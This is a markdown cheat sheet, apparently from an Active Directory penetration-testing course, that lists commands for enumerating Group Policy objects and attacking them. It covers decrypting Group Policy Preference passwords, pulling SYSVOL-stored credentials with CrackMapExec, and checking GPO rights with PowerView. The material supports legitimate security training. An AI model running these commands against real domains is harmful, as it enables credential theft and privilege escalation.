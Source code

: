 # Group Policy Enumeration & Attacks

***

| Command                                                               | Description                                                                                                                                                             |
| --------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`             | Tool used to decrypt a captured `group policy preference password` from a Linux-based host.                                                                             |
| `crackmapexec smb -L \| grep gpp`                                     | Locates and retrieves a `group policy preference password` using `CrackMapExec`, the filters the output using `grep`. Peformed from a Linux-based host.                 |
| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the `SYSVOL` share of a Windows target using `CrackMapExec` from a Linux-based host.                                    |
| `Get-DomainGPO \| select displayname`                                 | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host.                                                                        |
| `Get-GPO -All \| Select DisplayName`                                  | PowerShell cmd-let used to enumerate GPO names. Performed from a Windows-based host.                                                                                    |
| `$sid=Convert-NameToSid "Domain Users"`                               | Creates a variable called `$sid` that is set equal to the `Convert-NameToSid` tool and specifies the group account `Domain Users`. Performed from a Windows-based host. |
| `Get-DomainGPO \| Get-ObjectAcl \| ?{$_.SecurityIdentifier -eq $sid`  | PowerView tool that is used to check if the `Domain Users` (`eq $sid`) group has any rights over one or more GPOs. Performed from a Windows-based host.                 |
| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`                  | PowerShell cmd-let used to display the name of a GPO given a `GUID`. Performed from a Windows-based host.                                                               |
